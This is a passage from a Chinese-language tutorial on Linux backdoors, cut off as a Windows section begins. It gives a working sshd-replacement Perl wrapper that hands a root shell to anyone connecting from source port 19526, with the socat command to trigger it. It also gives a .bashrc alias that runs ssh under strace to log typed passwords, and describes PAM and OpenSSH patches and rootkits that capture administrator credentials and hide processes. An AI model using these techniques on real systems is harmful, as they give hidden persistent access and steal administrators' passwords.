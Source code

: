 ssh root@x.x.x.x -p 5555
但这隐蔽性很弱，一般的rookit hunter这类的防护脚本可扫描到。

1.4 SSH Server wrapper


# cd /usr/sbin/
# mv sshd ../bin
# vim sshd
#!/usr/bin/perl
exec"/bin/sh"if(getpeername(STDIN)=~/^..LF/);
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
赋予权限chmod 755 sshd，最后正向连接：

socat STDIO TCP4:target_ip:22,sourceport=19526
其中，x00x00LF是19526的大端形式，便于传输和处理。

原理是从sshd fork出一个子进程，输入输出重定向到套接字，并对连过来的客户端端口进行了判断。隐蔽性比刚刚介绍的软连接后门要好。

2. logger型

2.1 alias后门

这种通过替换命令来使得evil效果最大化的用法，一般是通过追踪ssh的系统调用比如read、write等来记录下ssh的操作。

在当前用户的.bashrc下添加如下代码：

alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh'
当然，这只是alias后门的一种用法，可根据具体情况举一反三。

2.2 pam后门

pam是一种认证机制，它可帮助管理员快速方便地配置认证方式，并且无需更改服务程序。这种后门主要是通过pam_unix_auth.c打补丁的方式潜入到正常的pam模块中，以此来记录管理员的帐号密码。搭建方式见下连接。

2.3 openssh后门

同理，也是下载对应的恶意补丁包，来记录管理员的帐号密码。但该后门与pam后门存在很大的问题是编译环境，有时在实战中会出现各种各样的问题。搭建方式见下连接。

http://www.tuicool.com/articles/eIv22az

3. rookit型

3.1 应用级rootkit

应用级rookit的主要特点是通过批量替换系统命令来实现隐藏，如替换ls、ps和netstat等命令来隐藏文件、进程和网络连接等，有时会有守护进程来保证后门的稳定性。推荐两款常用的木马：mafix和brookit。如果想要学习linux类木马，推荐阅读orange的tsh源码，基本上涵盖了常规木马应具有的特点。

3.2 内核级rookit

隐藏性通常要借助对linux系统调用的截获来达到目的，并且难以查杀，难以清除，危害巨大。

由于未找到相应例子，遂不做具体分析。希望有同学能补充。

二. windows后门

windows后门博大精深，实在不好分类，因为后门常需持久化潜在运行，受到powersploit中persistence脚本的启发，因此采取使用后门的触发方式进行分类，分为registry型、schtasks型和WMI型。
